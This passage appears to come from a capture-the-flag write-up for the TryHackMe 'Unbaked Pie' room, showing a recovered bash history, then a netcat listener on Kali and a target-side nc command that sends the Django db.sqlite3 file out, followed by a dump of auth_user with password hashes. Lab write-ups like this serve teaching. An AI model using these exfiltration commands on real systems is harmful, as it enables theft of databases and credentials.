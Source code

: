 ~~~
ssh ramsey@172.17.0.1
exit
ls
cd site/
ls
cd bakery/
ls
nano settings.py 
exit
ls
cd site/
ls
cd bakery/
nano settings.py 
exit
apt remove --purge ssh
ssh
apt remove --purge autoremove open-ssh*
apt remove --purge autoremove openssh=*
apt remove --purge autoremove openssh-*
ssh
apt autoremove openssh-client
clear
ssh
ssh
ssh
exit
~~~

## Database

However, we don't know ramsey's password. I first tried to get the sqlite3 database (Django database) to find credentials, but it seemed to be a rabbit hole.

In Kali:

~~~
┌──(kali㉿kali)-[/data/tryhackme/Unbaked_Pie/files]
└─$ nc -l -p 9999 > db.sqlite3
~~~

On the target:

~~~
root@8b39a559b296:/home/site# nc -w 3 10.8.50.72 9999 < db.sqlite3
nc -w 3 10.8.50.72 9999 < db.sqlite3
~~~

We can dump the `auth_user` table:

~~~
┌──(kali㉿kali)-[/data/tryhackme/Unbaked_Pie/files]
└─$ sqlite3 db.sqlite3      
sqlite> .tables
auth_group                  django_admin_log          
auth_group_permissions      django_content_type       
auth_permission             django_migrations         
auth_user                   django_session            
auth_user_groups            homepage_article          
auth_user_user_permissions
sqlite> select * from auth_user;
1|pbkdf2_sha256$216000$3fIfQIweKGJy$xFHY3JKtPDdn/AktNbAwFKMQnBlrXnJyU04GElJKxEo=|2020-10-03 10:43:47.229292|1|aniqfakhrul|||1|1|2020-10-02 04:50:52.424582|
11|pbkdf2_sha256$216000$0qA6zNH62sfo$8ozYcSpOaUpbjPJz82yZRD26ZHgaZT8nKWX+CU0OfRg=|2020-10-02 10:16:45.805533|0|testing|||0|1|2020-10-02 10:16:45.686339|
~~~